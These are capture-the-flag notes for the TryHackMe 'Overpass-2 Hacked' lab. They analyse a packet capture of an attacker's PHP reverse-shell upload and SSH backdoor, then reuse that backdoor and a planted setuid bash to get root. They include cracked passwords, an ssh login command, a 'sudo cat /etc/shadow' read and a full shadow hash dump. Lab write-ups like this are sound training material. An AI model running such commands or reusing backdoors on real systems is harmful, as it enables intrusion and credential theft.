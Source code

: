 # THM: Overpass-2 Hacked
# OS: Linux (Easy)

----

[NOTES]
- The attacker used `/development/upload.php` to upload a php reverse shell.
- Found creds (internal)
  - `james:whenevernoteartinstant`
- James can run everything as sudo
- The attacker has an ssh backdoor at 0.0.0.0:2222
  - `User: james`
  - `Pass: november16`
  - `File: /home/james/.ssh/id_rsa`
- Cracked 4/5 passwords from /etc/shadow
  - secret12
  - secuirty3
  - 1qaz2wsx
  - abcd123

Usernames:
  - System:
    - james
    - paradox
    - szymex
    - muirland
    
Creds:
  - System:
    - james:whenevernoteartinstant
    - paradox:secret12
    - szymex:secuirty3
    - bee:1qaz2wsx
    - muirland:abcd123

----

[PCAP Analysis]

- Extracted files from PCAP:
  - index.html
  - 'upload(1).php'
  - upload.php ----> Has the attackers payload
  - uploads
- Found what the attacker did from his shell at pcap line 31 by following the tcp stream.
- The attacker viewed `/etc/shadow`
- The attacker installed an ssh backdoor:
  [NinjaJc01-Backdoor](https://github.com/NinjaJc01/ssh-backdoor)

----

## Foothold

- Got access by using the backdoor on port 2222
  Creds | james:november16
  ```
  ssh -oHostKeyAlgorithms=+ssh-rsa james@$ip -p 2222
  ```

## Privesc

- They created a `.setuid_bash` at james' home directory
  ```
  ./.setuid_bash -p
  ```

----

[LOOT]

```/etc/shadow
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```
